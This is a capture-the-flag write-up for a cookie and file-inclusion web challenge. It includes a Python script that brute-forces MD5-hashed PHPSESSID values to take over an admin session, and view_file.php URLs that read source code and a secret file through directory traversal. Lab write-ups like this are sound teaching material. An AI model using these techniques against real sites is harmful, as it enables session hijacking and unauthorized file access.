


## Recon
Upon loading the site, we are greeted with a page prompting us to `intercept`:

Doing so leads us to another page: `guest.php` which hints at cookies

```
Dear Jones,

I hope this message finds you well. We have a critical situation regarding the upcoming special event for the President. As you know, the President has a particular fondness for a certain sweet treat we prepare. Unfortunately, I seem to have misplaced the recipe for our most popular confection.

I need you to urgently send me the list of ingredients and steps for this signature delight. It’s the one that everyone raves about, usually paired with afternoon tea. Your quick response is essential, as I need to start preparations immediately.

Best regards,
Chef Anderson
```

Note: we got to this page through a redirect on the `home.php` page.

## Cookies
If we have a look at our cookies we notice we only have a `PHPSESSID` cookie:
`b0b183c207f46f0cca7dc63b2604f5cc`. This cookie changes for each interception.

Googling this cookie (and luck) reveals it is the `md5` hash of `837`.

We can try every number hash to find a weak cookie:

```python
from requests import Session
from tqdm import trange
from hashlib import md5

HOST = "challenges.challenge-ecw.eu"
PORT = "39040"
BASE = f"http://{HOST}:{PORT}/"


for i in trange(0, 1000):
    phpsessid = md5(str(i).encode()).hexdigest()

    s = Session()
    s.cookies.set(
        "PHPSESSID",
        phpsessid,
    )

    response = s.post(BASE + "home.php", allow_redirects=False)
    if response.headers["Location"] != "guest.php":
        print(i)
        print(phpsessid)
        break
```

This provides us with an interesting cookie: `cee631121c2ec9232f3a2f028ad5c89b` which is the `md5` hash of `500`.

## The admin interface
Setting this cookie as our `PHPSESSID` in Burp's browser, we are able to navigate the admin interface:


The recipe page provides only a partial flag:
```
- 85 g of soft butter
- 1 egg
- ECW{S@cUr3_yOur_C0ok13s_
```

Interestingly, the `edit profile` page allows us to upload a profile picture:


After uploading a generic PNG image and checking the path were it was uploaded we get this:
`view_file.php?folder=uploads&file=profile.png`

Checking for local file inclusion, I visited:
`http://challenges.challenge-ecw.eu:39040/view_file.php?folder=.&file=view_file.php`

And got the source of the PHP script! Interestingly, we notice that omitting the file argument reveals all the contents of a directory:

```php
if ($folder && !$file) {
    $files = list_files($folder);
    if ($files) {
        $content = "<ul>";
        foreach ($files as $file) {
            $content .= "<li><a href='?folder=" . urlencode($folder) . "&file=" . urlencode(basename($file)) . "'>" . htmlspecialchars(basename($file)) . "</a></li>";
        }
        $content .= "</ul>";
    } else {
        $content = "Failed to open directory.";
    }
}
```

After exploration, the  `.`  directory contains nothing of interest
```
admin.php
guest.php
home.php
img
index.php
js
profile.php
profile_data.json
recipe.php
uploads
view_file.php
```

Listing files in `..` reveals:
```
index.nginx-debian.html
public
src
super_secret.txt
```

We can finally get the second part of the flag:
`http://challenges.challenge-ecw.eu:39040/view_file.php?folder=..&file=super_secret.txt`

```
6Jw91wsMmD}
```

Flag:
`ECW{S@cUr3_yOur_C0ok13s_6Jw91wsMmD}`

> I believe this challenge can also be solved with a file upload vulnerability